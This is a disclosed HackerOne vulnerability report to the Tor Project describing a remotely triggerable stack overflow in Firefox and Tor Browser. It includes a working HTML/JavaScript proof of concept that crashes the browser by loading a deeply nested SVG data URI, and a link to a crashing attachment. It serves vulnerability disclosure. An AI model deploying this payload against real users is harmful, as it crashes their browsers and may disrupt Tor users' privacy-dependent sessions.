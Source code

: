 # Stack overflow in UnbindFromTree (browser can be crashed remotely)

## Report Details
- **Report ID**: 264481
- **URL**: https://hackerone.com/reports/264481
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-08-30T00:34:16.164Z
- **Disclosed**: 2017-10-02T07:40:29.690Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: torproject

## Vulnerability Information
I reported this bug to Mozilla approximately [9 months ago](https://bugzilla.mozilla.org/show_bug.cgi?id=1322307) and all versions of Firefox back to at least ESR45 and including current Nightly 57 builds are still vulnerable to this unpatched flaw. I've tested on Fedora 26, Debian 8, Windows 8 and Windows 10. Mozilla declined to award a bounty. 

Code:
```
<html>
<head></head>
<body>
<script>
function done() {
}

var x = '';
for (i=0; i<500000; ++i)
  x += '<a>';
var uri = 'data:image/svg+xml,' + x;
var i = new Image();
i.src = uri;
</script>
</body>
</html>
```

The caveat to this is that if scripts are disabled on the page where this code is located, the Tor browser won't crash. [This link](https://bugzilla.mozilla.org/attachment.cgi?id=8817075) will probably crash your Firefox. A WinDBG stack trace is located [here](https://bugzilla.mozilla.org/attachment.cgi?id=8817117).



## Attachments
No attachments
